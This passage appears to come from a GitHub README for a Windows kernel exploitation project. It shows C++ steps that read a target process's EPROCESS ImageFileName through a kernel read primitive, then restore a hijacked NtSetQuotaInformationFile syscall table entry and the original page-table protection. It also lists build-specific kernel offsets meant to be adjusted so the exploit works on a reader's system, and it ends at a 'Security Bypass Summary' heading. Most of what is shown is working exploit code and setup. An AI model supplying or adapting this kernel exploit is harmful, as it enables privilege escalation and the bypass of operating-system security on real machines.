 #### 7. **Read Process Name**

```cpp
	b = this->objMemHandler->VirtualRead(
		(DWORD64)KernelEprocess + imageFileNameOffset,
		&processname,
		sizeof(processname)
	);

	// Print the string
	printf("[>] Process Name: %s\n", processname);
  ```

You parse the `ImageFileName` field from the EPROCESS structure to identify the target process with our Read Primitive.

You can get the `ImageFileName` offset from windbg local kernel session.

```
2: kd> dt _EPROCESS ImageFileName
nt!_EPROCESS
   +0x338 ImageFileName : [15] UChar
```

#### 8. **Cleanup**

You restore:
- The original syscall handler:
  ```cpp
  WriteMemoryPrimitive(0x04, NtSetQuotaInformationFile, orig_syscall_offset);
  ```
- Original memory protection:
  ```cpp
  WriteMemoryDWORD64(ntKiServiceTable_pde, ntKiServiceTable_pde_flags);
  ```

---

### 🧾 Required Offsets for your windows build (in `offsets.h`)

For the project to work on your system, you need to change these offsets to match your Windows version.

```cpp
#define KeServiceDescriptorTableShadow_Offset_fromNT 0xfc5280
#define NtSetQuotaInformationFile_syscallnumber 0x1b8
#define PsLookupProcessByProcessId_Offset_fromNT 0x906ea0
#define MiGetPteAddress_Offset_fromNT 0x438d93
#define imageFileNameOffset 0x338
```

---


### 🔐 Security Bypass Summary
